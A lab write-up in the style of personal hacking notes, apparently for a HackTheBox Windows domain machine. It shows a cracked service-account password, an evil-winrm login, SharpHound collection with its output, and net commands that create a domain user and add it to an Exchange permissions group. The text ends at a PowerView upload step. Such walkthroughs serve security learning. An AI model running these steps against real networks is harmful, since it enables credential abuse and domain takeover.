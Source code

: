 ```bash
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
```
# Got hash for one user svc-alfresco:
```craked - s3rvice```


# Logged in using evil-winrm
```bash
┌──(singhx㉿kali)-[~]
└─$ evil-winrm -u svc-alfresco -p  s3rvice -i 10.10.10.161
<got user flag here>
```
# Download sharphound.ps1 to the target and invoke it. of .ps1 not works use .exe version
```bash
*Evil-WinRM* PS C:\users\svc-alfresco\downloads> .\SharpHound.exe -c All
2023-06-27T21:15:50.4311660-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-06-27T21:15:50.5874987-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
---------snippet------------------
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-06-27T21:16:36.3843853-07:00|INFORMATION|SharpHound Enumeration Completed at 9:16 PM on 6/27/2023! Happy Graphing!
```
# download the .zip file to local machine.
`download 20230627211635_BloodHound.zip`

# Upload file to Bloodhound:

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/430d0c17-6c51-4300-abac-8ffc05d31005)

# In the target machine use cmds:
```powershell
net user boss boss123 /add /domain
net group "Exchange Windows Permissions" /add boss
```
# Now upload powerview.ps1:
